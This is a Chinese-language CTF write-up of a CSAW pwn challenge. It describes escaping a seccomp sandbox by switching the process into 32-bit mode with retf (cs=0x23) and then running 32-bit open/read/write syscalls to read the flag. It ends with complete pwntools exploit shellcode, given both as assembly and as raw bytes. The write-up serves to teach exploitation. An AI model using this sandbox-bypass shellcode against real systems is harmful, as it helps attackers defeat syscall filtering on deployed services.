










## 写在前面：

这两天打CSAW又学到了一种新的沙箱逃逸的方法--切换进程的工作模式，使用32位的系统调用号执行系统调用，来绕过原本沙箱禁用掉的系统调用。理解起来倒也不难，但是有几个点需要注意一下，这里详细的记录下利用过程。

沙箱的基础知识就不再介绍了，不了解的师傅可以自行百度。


## 利用过程&&调试

先看下程序逻辑(如下)，就是输入数据，然后将其执行。在执行前开启了沙箱保护。




我们看一下本题沙箱禁用的系统调用(如下图)，我们发现没法执行execve，同时禁用了openat和open这两个系统调用，这就意味着orw和execve两种拿到flag的方式都无法使用了。




这里我们利用一种新的思路来进行沙箱逃逸，观察上图的禁用规则，我们发现并没有检查架构。如果正常检查架构的沙箱规则应该如下：




### 控制cs寄存器

而retf这个指令是相当于pop ip；pop cs

而在x64系统下，进程有两种工作模式(32位工作模式和64位工作模式)。决定了是哪种工作模式的是cs寄存器**(cs=0x23 则为32位工作模式，cs=0x33 则为64位工作模式)**，如上所说，我们可以用retf指令来控制cs寄存器。而这里要注意，因为我们切换的是32位工作模式，**因此这里的ip寄存器应该是eip寄存器，而cs寄存器本身也是四字节，所以我们想要往eip和cs寄存器填充的两个值一共应该是八字节数据，共占用一个64位程序下的内存单元才对**。


### 映射小于等于四字节地址

但是有一点如果切换到32位工作模式后，那寄存器用的则是32位寄存器，原本64位寄存器里装的6字节地址就无法正常使用了，因此在这之前我们需要调用mmap映射一段小于等于四字节的可读可写可执行的内存地址空间，然后我们将执行流迁移到这片区域上，因为地址小于等于四字节放到32位寄存器中也是ok的。




上图是执行mmap映射了一段可读可写可执行的区域，下图是执行系统调用read将数据写到刚刚映射出来的这段区域




### 切换进程的工作模式

切换进程的工作模式其实就是用retf指令来控制cs寄存器，不过需要注意的是我们将执行流迁移到新映射的内存区后，将**栈也迁移过来**(因为原本的栈地址是6字节的，我们切换到32位工作模式后无法再访问原本的栈)。**迁移栈的地方要和映射的起始区域错开**，不能将栈进行新的迁移后，执行push时干扰到我们原本布置的指令。

首先是先布置一下eip和cs的数据，先push到栈里(这里一定要注意是二者共用一个内存单元，一个值仅仅占四字节)，举个例子，比如我映射了一段0x100000的内存区域，然后要切换到32位的工作模式上，那么我压入的数据应该是0x2300100000（因为要迁移执行流，所以给eip寄存器的是0x100000）(如下图)




下图是已经执行了retf，切换到了32位工作模式。(我们观察下面的栈也可以看出来，执行后的栈已经无法使用了，对比上面正常的栈，发现只保留了4字节，这就说明已经切换了32位工作模式)




最后就是记得把栈给迁移过来(如下)




### orw获取flag

然后打一个常规的32位orw即可。（如下）




### 执行32位下的execve的报错

最终正常执行我们的32位程序中的系统调用即可，这里要注意一下，我们还是无法执行execve获取shell，因为execve(“/bin/sh”,0,0)其实是去运行了/bin/sh这个程序，而这个程序的位数是跟系统一样的。如果是64位系统，那么/bin/sh这个程序就是64位的(依旧绕不过沙箱)，这样就导致了我们虽然是工作模式切换过来了，但是后续执行/bin/sh的时候报错了。

执行32位中的execve情况如下：




这里要解释一下图中看的明明是执行的munmap，这是因为工作模式虽然切换到32位了，但是这个gdb调试到这里，它依然认为这个系统调用号是64位的，所以就显示了munmap，不过现在确实执行的是32位中的execve系统调用。

可以看见红框里的报错提示，首先第一行我们确实是成功执行了execve(“/bin/sh”,0,0)，创建了新的进程/usr/bin/dash

但是第二行就报了一个错误，说是Bad system call。这就说明执行了64位的系统调用，然后被沙箱给禁用了。这也就验证了上面所说的/bin/sh这个程序就是64位的(依旧绕不过沙箱)。

因此我们依旧只能用orw读出flag。


## EXP:

```py
from tools import *
context.log_level='debug'
p,e,libc=load('chal3')
#debug(p)
shellcode="""
mov    rax,0x9
mov    rsi,0x5000
mov    rdi,0x100000
mov    rdx,0x7
mov    r10,0x21
xor    r8,r8
xor    r9,r9
syscall

mov    rsi,rdi
xor    rdi,rdi
xor    rax,rax
mov    rdx,0x100
syscall

movabs r8,0x2300100000
push   r8
retf
"""
s="\x48\xC7\xC0\x09\x00\x00\x00\x48\xC7\xC6\x00\x50\x00\x00\x48\xC7\xC7\x00\x00\x10\x00\x48\xC7\xC2\x07\x00\x00\x00\x49\xC7\xC2\x21\x00\x00\x00\x4D\x31\xC0\x4D\x31\xC9\x0F\x05\x48\x89\xFE\x48\x31\xFF\x48\x31\xC0\x48\xC7\xC2\x00\x01\x00\x00\x0F\x05\x49\xB8\x00\x00\x10\x00\x23\x00\x00\x00\x41\x50\xCB"
p.sendline(s)
pause()

orw="""
mov    esp,0x100100

push   0x0
push   0x67616c66
push   rsp
pop    rbx
xor    ecx,ecx
push   0x5
pop    rax
int    0x80

push   rax
pop    rbx
push   rsp
pop    rcx
push   0x4000
pop    rdx
push   0x3
pop    rax
int    0x80

push   0x1
pop    rbx
push   rsp
pop    rcx
push   0x4000
pop    rdx
push   0x4
pop    rax
int    0x80
"""
o="\xBC\x00\x01\x10\x00\x6A\x00\x68\x66\x6C\x61\x67\x54\x5B\x31\xC9\x6A\x05\x58\xCD\x80\x50\x5B\x54\x59\x68\x00\x40\x00\x00\x5A\x6A\x03\x58\xCD\x80\x6A\x01\x5B\x54\x59\x68\x00\x40\x00\x00\x5A\x6A\x04\x58\xCD\x80\xB8\x01\x00\x00\x00\xCD\x80"
p.sendline(o)
p.interactive()

```


## 参考文章：

[特殊情况下sandbox的bypass - vi0let - 博客园 (cnblogs.com)](https://www.cnblogs.com/vi0let/articles/15978203.html)

[32位64位交叉编码 - 简书 (jianshu.com)](https://www.jianshu.com/p/4a0a70ddec37)

## 题目附件：

链接：https://pan.baidu.com/s/1NXZ8zk2CsqUwwkua5QvoFA?pwd=7gt0 
提取码：7gt0